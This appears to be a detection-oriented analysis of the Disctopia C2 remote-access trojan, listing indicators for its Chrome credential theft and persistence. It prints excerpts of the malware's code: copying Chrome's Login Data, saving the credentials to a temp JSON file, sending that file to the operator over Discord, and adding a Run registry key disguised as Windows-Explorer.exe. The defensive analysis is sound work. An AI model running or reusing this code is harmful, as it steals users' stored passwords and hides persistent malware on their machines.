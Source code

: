 ### Steal Browser Credential

- Description: Get the stored chrome credentials from the agent.
- Source Reference:
  - https://github.com/3ct0s/disctopia-c2/blob/3d16886e2d852ac06081453ed57f2750a74a6166/code/main.py#L264
- Indicators:
  - Copy the goolge chrome database and create the following file: `my_chrome_data.db`

  ```python
  def stealcreds():
    password_db_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local",
                            "Google", "Chrome", "User Data", "Default", "Login Data")
    shutil.copyfile(password_db_path,"my_chrome_data.db")
    .....
  ```

  - Save the collected credentials in the following file: `%temp%\data.json`

  ```python
  ......
  try:
    data = credentials.stealcreds()
    path = os.environ["temp"] +"\\data.json"
    with open(path, 'w+') as outfile:
        json.dump(data, outfile, indent=4)
    await channel.send(f"Agent #{ID} Chrome Credentials:")
    await channel.send(file=discord.File(path))
    ......
  ```

### Persistence

- Description: Enable persistence on the target agent
- Source Reference:
  - https://github.com/3ct0s/disctopia-c2/blob/3d16886e2d852ac06081453ed57f2750a74a6166/code/main.py#L286
- Indicators:
  - The agent will copy itself to the following location: `%appdata%\Windows-Explorer.exe`
  
  ```python
  .....
  try:
    backdoor_location = os.environ["appdata"] + "\\Windows-Explorer.exe"
    if not os.path.exists(backdoor_location):
        shutil.copyfile(sys.executable, backdoor_location)
  .....
  ```

  - Execute the `reg` command to add a new registry key

  ```python
  sp.call('reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ /d "' + backdoor_location + '"', shell=True)
  ```
